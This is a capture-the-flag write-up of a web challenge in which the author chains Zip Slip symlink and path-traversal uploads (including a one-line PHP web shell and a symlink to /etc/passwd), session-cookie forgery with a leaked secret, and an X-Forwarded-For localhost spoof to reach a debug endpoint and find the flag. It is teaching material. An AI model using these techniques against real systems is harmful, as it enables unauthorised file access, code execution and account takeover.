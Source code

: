 ```yaml
---
title: Slippy
summary: Slipping Jimmy keeps playing with Finger.
tags: [TfcCTF, Web, Zip Slip]
date: 2025-08-31
showtoc: true
---
```


# Slippy

## Description

Slipping Jimmy keeps playing with Finger.

Difficulty: Baby  
Author: Sagi

[Given files](/litctf/group-chat/main.py)

## Solution

The application allows us to upload a zip file.

![index](/tfcctf/slippy/index.png)

Let's start by trying a simple zip file.

```sh
$ echo foo > foo.txt; zip foo.zip foo.txt
```

After uploading it, the web application unzips the file and allows us to download the unzipped files.

![files](/tfcctf/slippy/files.png)

By examining vulnerabilities around unzipping files, I discovered the Zip Slip vulnerability. This vulnerability can allow us to do two things:

- Overwrite arbitrary files: We can create a zip file containing files that use path traversal (e.g., a file named `../index.php`). When unzipped, these files will be written outside the current directory.

```sh
$ echo '<?php echo system("id");?>' > '../index.php'
$ zip payload.zip '../index.php'
```

- Read arbitrary files: If we zip a symlink, and the web application unzips and displays its content, we can read any file on the server.

```sh
$ ln -s /etc/passwd link
$ zip --symlink payload.zip link
```

So I tried uploading a zip file containing a symlink to `/etc/passwd`, and after downloading the unzipped files, I was able to retrieve the `/etc/passwd` file from the server.

After identifying this vulnerability, I looked for the flag in the source code to see if retrieving it would be sufficient to solve the challenge.

However, it wasn't that simple. The flag is stored in a directory with a random name.

```dockerfile
RUN rand_dir="/$(head /dev/urandom | tr -dc a-z0-9 | head -c 8)"; mkdir "$rand_dir" && echo "TFCCTF{Fake_fLag}" > "$rand_dir/flag.txt" && chmod -R +r "$rand_dir"
```

Even though the flag was not directly accessible, I was able to retrieve two other secrets using the Zip Slip vulnerability:

* The secret for generating session cookies:

```sh
SESSION_SECRET=3df35e5dd772dd98a6feb5475d0459f8e18e08a46f48ec68234173663fca377b
```

```js
app.use(session({
  secret: process.env.SESSION_SECRET,
  resave: false,
  saveUninitialized: false,
  store: store
}));
```

* The session ID for `develop`:

```js
const sessionData = {
    cookie: {
      path: '/',
      httpOnly: true,
      maxAge: 1000 * 60 * 60 * 48 // 1 hour
    },
    userId: 'develop'
};
store.set('amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E', sessionData, err => {
    if (err) console.error('Failed to create develop session:', err);
    else console.log('Development session created!');
});
```

With these secrets, the next step was to find a way to leak the directory name containing the flag.

While reviewing the source code, I found a debug endpoint.

```js
router.get('/debug/files', developmentOnly, (req, res) => {
    const userDir = path.join(__dirname, '../uploads', req.query.session_id);
    fs.readdir(userDir, (err, files) => {
    if (err) return res.status(500).send('Error reading files');
    res.render('files', { files });
  });
});
```

However, when I tried to access it, I received the following message:

```
Forbidden: Development access only
```

This is due to the `developmentOnly` middleware, which restricts access to this endpoint.

```js
module.exports = function (req, res, next) {
    if (req.session.userId === 'develop' && req.ip == '127.0.0.1') {
      return next();
    }
    res.status(403).send('Forbidden: Development access only');
};
```

In order to access this endpoint, I needed to be authenticated as the `develop` user and have the IP `127.0.0.1`.

I already had the `develop` user ID from earlier, so the next step was to forge a session cookie.

```js
const cookieSignature = require("cookie-signature");
const secret =
  "3df35e5dd772dd98a6feb5475d0459f8e18e08a46f48ec68234173663fca377b";
const sessionId = "amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E";

const signedSessionId = "s:" + cookieSignature.sign(sessionId, secret);
console.log(signedSessionId);
```

I tested if the cookie worked by returning to the homepage, where it displayed the current user ID.

![develop](/tfcctf/slippy/develop.png)

Next, I needed to set my IP to `127.0.0.1`. To bypass this check, I used the `X-Forwarded-For` header and configured Burp Suite to automatically insert `X-Forwarded-For: 127.0.0.1` into each request.

I then tried accessing the debug endpoint again at `/debug/files?session_id=`, and it worked!

![debug\_files](/tfcctf/slippy/debug_files.png)

From the code of the endpoint, I realized that it lists all files and directories in the `uploads/PATH` directory, where `PATH` is the `session_id` query parameter.

So, I tried to use path traversal to leak the random directory containing the flag by accessing `/debug/files?session_id=../../`.

![root](/tfcctf/slippy/root.png)

Now that I had access to the server's file structure, I was able to locate the flag in the directory `/2u9wizpw/flag.txt` using the Zip Slip vulnerability from earlier.

```
TFCCTF{3at_sl1P_h4Ck_r3p3at_5af9f1}
```

# References

* Payloads All The Things: [Zip Slip](https://swisskyrepo.github.io/PayloadsAllTheThings/Zip%20Slip/)
